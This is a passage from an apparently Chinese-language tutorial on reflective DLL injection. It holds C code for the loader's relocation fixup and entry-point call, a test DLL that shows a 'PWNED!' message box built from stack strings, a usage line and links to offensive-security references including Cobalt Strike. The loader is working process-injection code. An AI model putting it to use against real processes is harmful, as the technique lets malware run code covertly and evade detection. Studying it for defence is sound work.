            DWORD dwCount = (pReloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
            WORD* pList = (WORD*)((LPBYTE)pReloc + sizeof(IMAGE_BASE_RELOCATION));
            for (DWORD i = 0; i < dwCount; i++) {
                if (pList[i] > 0) {
                    DWORD type = pList[i] >> 12;
                    DWORD offset = pList[i] & 0xFFF;
                    if (type == IMAGE_REL_BASED_DIR64) {
                        *(ULONG_PTR*)(uiBaseAddress + pReloc->VirtualAddress + offset) += uiDelta;
                    }
                    else if (type == IMAGE_REL_BASED_HIGHLOW) {
                        *(DWORD*)(uiBaseAddress + pReloc->VirtualAddress + offset) += (DWORD)uiDelta;
                    }
                }
            }
            pReloc = (PIMAGE_BASE_RELOCATION)((LPBYTE)pReloc + pReloc->SizeOfBlock);
        }
    }

    // STEP 8: 执行
    if (pNtFlushInstructionCache) pNtFlushInstructionCache((HANDLE)-1, NULL, 0);
    ULONG_PTR uiEntry = uiBaseAddress + pNt->OptionalHeader.AddressOfEntryPoint;
    ((DLLMAIN)uiEntry)((HINSTANCE)uiBaseAddress, DLL_PROCESS_ATTACH, lpParameter);

    return uiEntry;
}

// =============================================================
//  4. DllMain
// =============================================================
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        // 1. 蜂鸣测试
        Beep(1000, 300); // 哔!

        // 2. 弹窗测试 (栈字符串)
        char title[] = { 'R', 'D', 'I', 0 };
        char msg[] = { 'P', 'W', 'N', 'E', 'D', '!', 0 };
        MessageBoxA(NULL, msg, title, MB_OK);
    }
    return TRUE;
}
```

## 运行项目

编译完成inject和dll后，通过inject.exe 目标进程 dll来实现反射注入


## 参考项目

> https://github.com/stephenfewer/ReflectiveDLLInjection
>
> https://github.com/monoxgas/sRDI
>
> https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_user-defined-rdll.htm
>
> https://www.cnblogs.com/fdxsec/p/18300826
>
> https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
>
> https://www.freebuf.com/articles/web/325873.html